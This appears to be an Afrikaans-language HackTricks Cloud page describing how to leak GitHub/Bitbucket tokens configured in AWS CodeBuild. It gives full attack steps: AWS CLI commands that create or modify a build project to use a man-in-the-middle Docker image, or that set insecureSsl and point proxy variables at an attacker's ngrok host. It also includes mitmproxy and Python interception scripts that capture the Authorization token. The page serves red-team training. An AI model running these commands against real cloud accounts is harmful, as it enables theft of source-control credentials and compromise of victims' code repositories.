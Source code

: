 # AWS Codebuild - Token Leakage

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Herwin Github/Bitbucket Geconfigureerde Tokens

Eerstens, kyk of daar enige bron geloofsbriewe geconfigureer is wat jy kan lek:
```bash
aws codebuild list-source-credentials
```
### Via Docker Image

As jy vind dat outentikasie na byvoorbeeld Github in die rekening gestel is, kan jy **exfiltrate** daardie **toegang** (**GH token of OAuth token**) deur Codebuild te laat **gebruik 'n spesifieke docker image** om die bou van die projek te loop.

Vir hierdie doel kan jy **'n nuwe Codebuild projek skep** of die **omgewing** van 'n bestaande een verander om die **Docker image** in te stel.

Die Docker image wat jy kan gebruik is [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Dit is 'n baie basiese Docker image wat die **env veranderlikes `https_proxy`**, **`http_proxy`** en **`SSL_CERT_FILE`** sal stel. Dit sal jou toelaat om die meeste van die verkeer van die gasheer wat in **`https_proxy`** en **`http_proxy`** aangedui is, te onderskep en die SSL CERT wat in **`SSL_CERT_FILE`** aangedui is, te vertrou.

1. **Skep & Laai jou eie Docker MitM image op**
* Volg die instruksies van die repo om jou proxy IP adres in te stel en jou SSL sertifikaat in te stel en **bou die docker image**.
* **MOENIE `http_proxy` INSTEL** om nie versoeke na die metadata eindpunt te onderskep nie.
* Jy kan **`ngrok`** gebruik soos `ngrok tcp 4444` om die proxy na jou gasheer in te stel.
* Sodra jy die Docker image gebou het, **laai dit op na 'n publieke repo** (Dockerhub, ECR...)
2. **Stel die omgewing in**
* Skep 'n **nuwe Codebuild projek** of **wysig** die omgewing van 'n bestaande een.
* Stel die projek in om die **voorheen gegenereerde Docker image** te gebruik.

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

3. **Stel die MitM proxy in jou gasheer in**

* Soos aangedui in die **Github repo** kan jy iets soos gebruik:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
Die **mitmproxy weergawe wat gebruik is, was 9.0.1**, daar is gerapporteer dat dit met weergawe 10 dalk nie sal werk nie.
{% endhint %}

4. **Voer die bou uit & vang die geloofsbriewe**

*   Jy kan die token in die **Authorization** koptekst sien:

<figure><img src="../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

Dit kan ook vanaf die aws cli gedoen word met iets soos

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### Via insecureSSL

**Codebuild** projekte het 'n instelling genaamd **`insecureSsl`** wat in die web versteek is en jy kan dit slegs vanaf die API verander.\
Deur dit in te skakel, kan Codebuild met die repository verbind **sonder om die sertifikaat** wat deur die platform aangebied word, te kontroleer.

* Eerstens moet jy die huidige konfigurasie opnoem met iets soos:
```bash
aws codebuild batch-get-projects --name <proj-name>
```
* Dan, met die ingesamelde inligting kan jy die projekinstelling **`insecureSsl`** op **`True`** opdateer. Die volgende is 'n voorbeeld van my opdatering van 'n projek, let op die **`insecureSsl=True`** aan die einde (dit is die enigste ding wat jy moet verander van die ingesamelde konfigurasie).
* Boonop, voeg ook die omgewingsveranderlikes **http\_proxy** en **https\_proxy** by wat na jou tcp ngrok wys soos: 

{% code overflow="wrap" %}
```bash
aws codebuild update-project --name <proj-name> \
--source '{
"type": "GITHUB",
"location": "https://github.com/carlospolop/404checker",
"gitCloneDepth": 1,
"gitSubmodulesConfig": {
"fetchSubmodules": false
},
"buildspec": "version: 0.2\n\nphases:\n  build:\n    commands:\n       - echo \"sad\"\n",
"auth": {
"type": "CODECONNECTIONS",
"resource": "arn:aws:codeconnections:eu-west-1:947247140022:connection/46cf78ac-7f60-4d7d-bf86-5011cfd3f4be"
},
"reportBuildStatus": false,
"insecureSsl": true
}' \
--environment '{
"type": "LINUX_CONTAINER",
"image": "aws/codebuild/standard:5.0",
"computeType": "BUILD_GENERAL1_SMALL",
"environmentVariables": [
{
"name": "http_proxy",
"value": "http://2.tcp.eu.ngrok.io:15027"
},
{
"name": "https_proxy",
"value": "http://2.tcp.eu.ngrok.io:15027"
}
]
}'
```
{% endcode %}

* Dan, voer die basiese voorbeeld uit van [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) in die poort aangedui deur die proxy veranderlikes (http\_proxy en https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Laastens, klik op **Bou die projek**, die **bewyse** sal in **duidelike teks** (base64) na die mitm-poort gestuur word:

<figure><img src="../../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

### ~~Via HTTP-protokol~~

{% hint style="success" %}
**Hierdie kwesbaarheid is op 'n stadium in die week van die 20ste Februarie 2023 deur AWS reggestel (ek dink op Vrydag). So 'n aanvaller kan dit nie meer misbruik nie :)**
{% endhint %}

'n Aanvaller met **verhoogde regte in 'n CodeBuild kan die Github/Bitbucket-token** wat geconfigureer is, lek of as regte via OAuth geconfigureer is, die **tydelike OAuth-token wat gebruik word om toegang tot die kode te verkry**.

* 'n Aanvaller kan die omgewing veranderlikes **http\_proxy** en **https\_proxy** by die CodeBuild-projek voeg wat na sy masjien wys (byvoorbeeld `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

* Verander dan die URL van die github-repo om HTTP in plaas van HTTPS te gebruik, byvoorbeeld: `http://github.com/carlospolop-forks/TestActions`
* Voer dan die basiese voorbeeld van [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) uit in die poort wat deur die proxy-variabeles (http\_proxy en https\_proxy) aangedui word.
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Laastens, klik op **Bou die projek**, die **bewyse** sal in **duidelike teks** (base64) na die mitm-poort gestuur word:

<figure><img src="../../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Nou sal 'n aanvaller in staat wees om die token vanaf sy masjien te gebruik, al die voorregte wat dit het op te lys en (mis)bruik makliker as om die CodeBuild-diens direk te gebruik.
{% endhint %}

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
